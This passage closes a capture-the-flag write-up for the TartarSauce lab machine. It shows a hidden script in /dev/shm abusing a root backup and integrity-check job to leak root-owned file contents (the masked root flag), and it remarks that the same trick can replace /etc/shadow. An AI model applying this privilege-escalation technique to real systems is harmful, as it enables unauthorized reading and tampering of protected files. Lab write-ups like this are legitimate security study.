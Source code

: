 Run the script and wait, it will take up to a minute:

```bash
onuma@TartarSauce:/dev/shm$ ./.b.sh
Waiting for archive filename to change...
File changed... copying here
tar: var/www/html/webservices/monstra-3.0.4/public/uploads/.empty: 
Cannot stat: Permission denied
tar: Exiting with failure status due to previous errors
rm: cannot remove '.797cf910500993dc9c7109100e7e78c3f7b98372': 
No such file or directory
rm: cannot remove 'var/www/html/webservices/monstra-3.0.4/public/uploads/.empty':
Permission denied
Waiting for new logs...
Only in /var/www/html/webservices/monstra-3.0.4: robots.txt
Only in /var/www/html/webservices/monstra-3.0.4: rss.php
Only in /var/www/html/webservices/monstra-3.0.4: sitemap.xml
Only in /var/www/html/webservices/monstra-3.0.4: storage
Only in /var/www/html/webservices/monstra-3.0.4: tmp
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Thu Jan 21 05:38:54 EST 2021
------------------------------------------------------------------------
/var/tmp/.379fe8e77f9f84a66b9a6df9a452d10499713829
Binary files /var/www/html/webservices/wp/.wp-config.php.swp and 
/var/tmp/check/var/www/html/webservices/wp/.wp-config.php.swp differ
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Tue Aug 24 16:28:46 EDT 2021
------------------------------------------------------------------------
/var/tmp/.797cf910500993dc9c7109100e7e78c3f7b98372
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
< 
---
> e7**************************09f9
```

The root flag is displayed at the bottom of the output. This should also work for other files and vice verca (e.g. to replace /etc/shadow).

# Conclusions

---

The troll in the wp version is not like an OSCP like machine, it is a real CTF, just like the root flag. I do not like the box just because of this reason. I think that beginners or hackers that likes doing CTFs will like this machine.